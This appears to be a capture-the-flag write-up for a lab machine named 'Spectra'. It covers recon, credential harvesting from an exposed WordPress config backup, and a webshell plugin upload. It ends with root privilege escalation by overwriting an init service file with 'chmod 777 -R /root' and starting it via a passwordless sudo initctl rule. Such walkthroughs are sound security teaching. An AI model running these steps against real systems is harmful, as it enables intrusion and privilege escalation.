

# Writeup - Spectra

## 1. Initial Scanning

```text
$ nmap -A -oA nmap/aggressive 10.129.89.44
Nmap scan report for 10.129.89.44
Host is up (0.023s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

Usual suspects are detected on `tcp/22` and `tcp/80`, SSH and HTTP respectively.
Surprising is an entirely exposed - presumably MySQL - database on `tcp/3306`.
In addition, the operating system is unknown, which is unusual.
We are potentially not on a regular Linux or Windows host, but some sort of IoT device, router or other specialized hardware.

Versions of software components don't seem too out-of-date.

## 2. Tinkering with MySQL and nginx

Just to try for low hanging fruit, let's attempt an unauthenticated login attempt on MySQL, which fails, as expected.

```shell
$ mysql -h 10.129.89.44
ERROR 1130 (HY000): Host '10.10.14.41' is not allowed to connect to this 
```

However, this indicates an IP-whitelisting. Maybe the database is really unauthenticated, but only from certain IPs. We might be able to confirm that later, when we can get the machine itself to establish a connection. After checking that, let's take a look at the website, which greets us with a very simple landing page.



Looks pretty "work in progress". Clicking on **Test** send us to `http://spectra.htb/testing/index.php` which includes `/testing` in the path, suggesting that this is indeed some sort of development system. The page itself yields an error message saying
> Error establishing a database connection

Meanwhile Wappalyzer captured the technology in use here:


**WordPress** is in use here, along with an outdated PHP version.
This might come in handy, if heavier exploitation techniques are required.

As usual, I do a quick check, if directory listing is enabled on the website, especially as this seems very fragile in terms of configuration and hardening.
Indeed, directory listing is enabled, yielding quite some insight into a full-blown WordPress installation:


In WordPress, relevant database credentials are usually located in `wp-config.php`, but calling that script causes it to execute, which results nothing. Fortunately for us, there is another "quick backup file" next to it called `wp-config.php.save`, which is not evaluated, but returned as text (see [wp-config.php.save](wp-config.php.save)). This reveals some credentials.

```php
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );
/** MySQL database username */
define( 'DB_USER', 'devtest' );
/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

> **Credentials gathered:**
>
> **Username**: devtest
>
> **Password**: devteam01

We continue browsing through the directories, discovering `plugins`, which might
yield some vulnerable plugins, which can be exploited later. Just a single one called `akismet` is discovered.


Searchsploit doesn't yield any good results, as XSS is not really abusable in this case.

```text
---------------------------------------------------------------------- 
 Exploit Title                                                        |  
---------------------------------------------------------------------- 
WordPress Plugin Akismet - Multiple Cross-Site Scripting Vulnerabilit | 
WordPress Plugin Akismet 2.1.3 - Cross-Site Scripting                 |
----------------------------------------------------------------------
```

We could steal a higher-privileged user's session with that, assuming we can provoke that user to request the malicious XSS-website. Nothing so far which would allow such a trick, so we move on.

Browsing to `hello.php` yields and interesting error message, giving away the webroot's location:
> Fatal error: Call to undefined function add_action() in /usr/local/share/nginx/html/testing/wp-content/plugins/hello.php on line 69

Neat, but overall less than what I hoped for, so just a quick note of that and let's see when we can do with those database credentials and the second link on the original landing page.

## 3. Owning WordPress and nginx

The link `Software Issue Tracker` leads to a WordPress installation. Nothing to crazy about the page itself. Just a single post and no interesting elements.


The big banner shows `administrator` as author of that post, so that should be a username. Visiting [WordPress' admin login](http://spectra.htb/main/wp-login.php) shows a regular WordPress login screen.
Checking for credential re-use, thus trying the database credentials we just got, fails. However, using `administrator` as username and `devteam01` as password **works**, directing us to the WordPress admin dashboard.

From there, we should be able to launch some sort of tool to get code execution or make use of those database credentials again (instead of connecting from the attacker system). Unfortunately, I found no action in WordPress allowing that. In the process, I stumble over the e-mail address of `administrator` (```devteam@megabank.local```) and the **Plugin** section, which allows uploading custom plugins. This should suffice to upload a webshell or something similar.

Google-ing for some WordPress Plugin serving as Webshell yields a [GitHub repository](https://github.com/aghanathan/HaCKeD). Downloading the `zip`, uploading it as plugin and enabling it, shows a file explorer.
Navigating to `/home/` reveals the user of the system:


Assuming we are `nginx` currently, we try to upload our own SSH key to `/home/nginx/.ssh/authorized_keys` which succeeds, as well as the access attempt:

```shell
$ ssh nginx@spectra.htb -i /root/.ssh/id_rsa
    The authenticity of host 'spectra.htb (10.129.89.44)' can't be established.
    RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
    Are you sure you want to continue connecting (yes/no/[fingerprint])?
    yes
    Warning: Permanently added 'spectra.htb,10.129.89.44' (RSA) to the list of known hosts.  
nginx@spectra ~ $
```

However, this is not the `user.txt` flag, so the hunt continues...

Testing a database connection from localhost is not IP-blocked, but doesn't work either. This explains, why the WordPress installation wasn't able to connect to the database. So there must be another password somewhere.

## 4. Tampering with Userland

```shell
$ ls -laR /home 2>/dev/null | grep user.txt
-r-------- 1 katie katie   33 Feb  2 15:57 user.txt
```

The flag is apparently in `katie`'s home directory.

Exploring the other readable home directories:

```shell
nginx@spectra ~ $ ls -la
total 32
drwxr-xr-x 5 nginx nginx 4096 Feb  4 12:43 .
drwxr-xr-x 8 root  root  4096 Feb  2 15:55 ..
lrwxrwxrwx 1 root  root     9 Feb  4 12:43 .bash_history -> /dev/null
-rw-r--r-- 1 nginx nginx  127 Dec 22 05:46 .bash_logout
-rw-r--r-- 1 nginx nginx  204 Dec 22 05:46 .bash_profile
-rw-r--r-- 1 nginx nginx  551 Dec 22 05:46 .bashrc
drwx------ 3 nginx nginx 4096 Jan 15 15:55 .pki
drwx------ 2 nginx nginx 4096 Feb 28 02:48 .ssh
drwxr-xr-x 2 nginx nginx 4096 Jan 15 15:55 log

nginx@spectra ~ $ ls -la /home/user/
total 16
drwxr-xr-x  4 root    root           4096 Jul 20  2020 .
drwxr-xr-x  8 root    root           4096 Feb  2 15:55 ..
drwx------ 35 chronos chronos-access 4096 Feb  2 14:23 19a8bec4ee5f0514f26a0cd2977e1cbbe63c6481
drwx------  2 chronos chronos-access 4096 Jul 20  2020 610876cf18f712f17912afa21776cff95f88938b

nginx@spectra ~ $ id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```

`katie` is the only member of another group called `developers`. Probably a group to share access for special files among developers. Those might be interesing.

`su katie` doesn't quite work, which is weird, but we can just SSH instead.

```shell
$ nginx@spectra /home/katie $ su katie
su: error while loading shared libraries: libpam.so.2: cannot open shared object file: No such file or directory
```

Trying with already our already known password doesn't work, unfortunately.
However, `chronos` seems to be an special user here.

```shell
$ nginx@spectra /home/katie $ ssh katie@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/home/chronos/user/.ssh/known_hosts).
Password:
```

Inspecting the `chronos` home directory:

```shell
$ nginx@spectra /home/chronos $ ls -la
total 5232
drwxr-xr-x 20 chronos chronos    4096 Feb 28 00:59 .
drwxr-xr-x  8 root    root       4096 Feb  2 15:55 ..
drwxr-xr-x  2 chronos chronos    4096 Feb 28 00:56 AutofillStates
-rw-r--r--  1 chronos chronos 4194304 Feb 28 00:58 BrowserMetrics-spare.pma
-rw-r--r--  1 chronos chronos 1048576 Feb 28 00:56 CrashpadMetrics-active.pma
drwxr-xr-x  2 chronos chronos    4096 Feb 28 00:56 'Crowd Deny'
drwxr-xr-x 13 chronos chronos    4096 Feb 28 00:59 Default
drwx------  2 chronos chronos    4096 Feb 28 00:56 Dictionaries
drwxr-xr-x  2 chronos chronos    4096 Feb 28 00:56 FileTypePolicies
-rw-r--r--  1 chronos chronos       0 Feb 28 00:56 'First Run'
drwxr-xr-x  2 chronos chronos    4096 Feb 28 00:56 Floc
drwx------  3 chronos chronos    4096 Feb 28 00:56 GrShaderCache
-rw-------  1 chronos chronos    2839 Feb 28 00:59 'Local State'
drwxr-xr-x  2 chronos chronos    4096 Feb 28 00:56 MEIPreload
drwxr-xr-x  2 chronos chronos    4096 Feb 28 00:56 OriginTrials
drwxr-xr-x  2 chronos chronos    4096 Feb 28 00:56 SSLErrorAssistant
drwx------  2 chronos chronos    4096 Feb 28 00:56 'Safe Browsing'
-rw-------  1 chronos chronos   20480 Feb 28 00:58 'Safe Browsing Cookies'
-rw-------  1 chronos chronos       0 Feb 28 00:58 'Safe Browsing Cookies-journal'
drwxr-xr-x  2 chronos chronos    4096 Feb 28 00:56 SafetyTips
drwx------  3 chronos chronos    4096 Feb 28 00:56 ShaderCache
drwxr-xr-x  2 chronos chronos    4096 Feb 28 00:56 SmartDim
drwxr-xr-x  3 chronos chronos    4096 Feb 28 00:56 'Subresource Filter'
drwxr-xr-x  2 chronos chronos    4096 Feb 28 00:56 TLSDeprecationConfig
drwxr-xr-x  2 chronos chronos    4096 Feb 28 00:56 ZxcvbnData
-rw-r--r--  1 chronos chronos       4 Feb 28 00:59 chrome_shutdown_ms.txt
-rw-r--r--  1 chronos chronos      17 Feb 28 00:59 startup_settings_cache.json
drwxr-xr-x  2 chronos chronos    4096 Feb 28 00:59 user
```

Apparently, this is some sort of ChromeOS. Seems to behave very similar to plain Linux, so probably not too difficult to deal with. Let's see what `linenum` can find. While transferring and executing that, I also noticed, that some partitions are apparently mounted as `read-only`.

LinEnum doesn't have anything particularly interesting, so we re-visit the webroot once again, only to notice, that there are in fact **two** WordPress installations! Should've noticed earlier, that there are differences in the URLs.
Checking the `main` directory for passwords yields another set of credentials.

```shell
$ cd /usr/local/share/nginx/html
$ ls -la
total 20
drwxr-xr-x  4 chronos chronos 4096 Feb 28 03:44 .
drwxr-xr-x 11 chronos chronos 4096 Jun 29  2020 ..
-rw-r--r--  1 nginx   nginx    283 Feb  2 14:30 index.html
drwxr-xr-x  5 nginx   nginx   4096 Oct 27 22:53 main
drwxr-xr-x  5 nginx   nginx   4096 Oct 27 22:52 testing
```

From the `wp-config.php` in the `main` installation, we can extract:

```php
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );
/** MySQL database username */
define( 'DB_USER', 'dev' );
/** MySQL database password */
define( 'DB_PASSWORD', 'development01' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

This set of credentials works for the database!

Unfortunately, it only yields the WordPress table `dev`, containing just `administrator` and no other information. Looking up an GTFOBin for MySQL wasn't successful either. Commands can be executed, but we end up in a shell of user `nginx`.
Exploits for that MySQL version exist, but require the MySQL user itself, which we don't have.

## 4. Taking over `katie`

As nothing yielded any credentials and WordPress didn't contain any "developer notes" from `katie` too, let's look through the remaining files and tools installed on the system.

`/opt` contains quite some tools which appear to be somewhat normal or are just empty directories. One sticks out in particular: `auto-login` looks interesting. Contained is a reference to `/etc/autologin/passwd`, which apparently contains the passwort to the user, the system is supposed to "auto login" whenever the device (just assuming it's a Chromebook or something like that) is powered on.

```shell
$ cat /etc/autologin/passwd
SummerHereWeCome!!
```

So we have gathered a passwort, which probably belongs to `katie`, as she is the only non-technical user for that system. Trying to log in with `katie` via SSH using the password and **that works!**

**Eventually, `katie` has the user flag and we obtained access to the group `developers`!**

## 5. Owning `root`

As we now have access to `katie` who is member of `developers`, let's see what we can do with those attributes, as opposed to `nginx`.
Start by looking for any files who are owned by `katie` or the group `developers`. Those are the files we can now write to, but previously couldn't.

```shell
# Those can be found in the repository at 'developers-files/*.conf'
$ find / -group developers 2>/dev/null
/etc/init/test6.conf
/etc/init/test7.conf
/etc/init/test3.conf
/etc/init/test4.conf
/etc/init/test.conf
/etc/init/test8.conf
/etc/init/test9.conf
/etc/init/test10.conf
/etc/init/test2.conf
/etc/init/test5.conf
/etc/init/test1.conf
/srv
/srv/nodetest.js

$ find / -user katie 2>/dev/null
/home/katie
/home/katie/.ssh
/home/katie/user.txt
/home/katie/log
/home/katie/.bashrc
/home/katie/.pki
/home/katie/.bash_logout
/home/katie/.bash_profile
/mnt/stateful_partition/home/katie
/mnt/stateful_partition/home/katie/.ssh
/mnt/stateful_partition/home/katie/user.txt
/mnt/stateful_partition/home/katie/log
/mnt/stateful_partition/home/katie/.bashrc
/mnt/stateful_partition/home/katie/.pki
/mnt/stateful_partition/home/katie/.bash_logout
/mnt/stateful_partition/home/katie/.bash_profile
```

`katie`-owned files don't look too interesting, as we know those already or they were already world-readable. `developers` however yields a couple `init.d` files we can modify. Dangerous to do, but none of them appears to be running and service control requires `root`. They all start the `/srv/nodetest.js` file, so let's see if there is some sort of automation or something we can manipulate in order to hijack that service.

`node` seems to point to `/usr/local/share/nodebrew`.

```shell
katie@spectra /usr/local/share/nodebrew $ ll
total 56
drwxr-xr-x  7 chronos chronos  4096 Jun 29  2020 .
drwxr-xr-x 96 chronos chronos  4096 Feb 11 23:12 ..
drwxr-xr-x  5 chronos chronos  4096 Jun 29  2020 completions
lrwxrwxrwx  1 chronos chronos    57 Jun 29  2020 current -> /usr/local/tmp/crew/dest/usr/local/share/nodebrew/default
drwxr-xr-x  3 chronos chronos  4096 Jun 29  2020 default
drwxr-xr-x  2 chronos chronos  4096 Jun 29  2020 iojs
drwxr-xr-x  3 chronos chronos  4096 Jun 29  2020 node
-rwxr-xr-x  1 chronos chronos 24634 Jun 29  2020 nodebrew
drwxr-xr-x  3 chronos chronos  4096 Jun 29  2020 src

$ find /usr/local/share/nodebrew -writeable
```

Nothing here is writeable by `katie` or `developers`. Two dangling symlinks at `./nodebrew/default` and `./nodebrew/nodebrew` which are dangerous in theory, because they are used when starting `node`, but they cannot be unlinked/re-linked nor we can create the files they are pointing to.

So this didn't yield any usable results. Let's try to overwrite the service `.conf` itself, in case it's automatically executed somewhere. So we add to all writeable service files the following line, in order to make all of `root`'s files world-readable on next execution.

```shell
chmod 777 -R /root /home/root
```

Checking back a little bit later, the files are reverted back to their original content, so there is apparently some sort of reset-mechanism involved. **Whatever we want to do, we've to be quick!**

Checking for the service management tool (not ITIL, more like `systemd` lol) shows no matched for neither `systemd`, `upstart`, `initd`, etc. Searching the files explicitly reveals, that `initctl` is in fact present, just not on `$PATH` \*facepalm\*. It's located at `/sbin/initctl`, but still... shouldn't work without being `root`.

However, since this is a development machine, maybe `developers` or `katie` are allowed to execute `initctl` for their testing services.

...

Actually **YES!** `/sbin/initctl status test` succeeds and doesn't print the expected error. So let's craft a one-liner that overwrites the `test.conf` file with a manipulated version, containing the `chmod 777` from above, which should execute as `root`.

```shell
cat /home/katie/test.conf > /etc/init/test.conf; \
sudo /sbin/initctl reload-configuration; \
sudo /sbin/initctl start test;
```

**SUCCESS!** `root`'s entire home directory is now world-readable, granting us access to the root-flag:

```shell
$ cat /root/root.txt
```

Just out of curiosity, let's check `sudo` using the same technique and making `/etc/sudo*` world-readable. In fact, there is a password-less `sudo`-rule which allows `katie` to execute `initctl` (which allows for an easy privilege escalation, as she has control over service files, too).

```text
katie ALL=(ALL) SETENV: NOPASSWD: /sbin/initctl
```

Doing this, I learnt that `sudo` refuses to work, if `/etc/sudoers` or any other file in the directory is world-readable, which makes sense, as everyone is `root`, if that's the case.
However, there was no way for me to recover from this situation, as `sudo /sbin/initctl` became unavailable. Resetting the machine would be necessary to continue. Fortunately, we're done.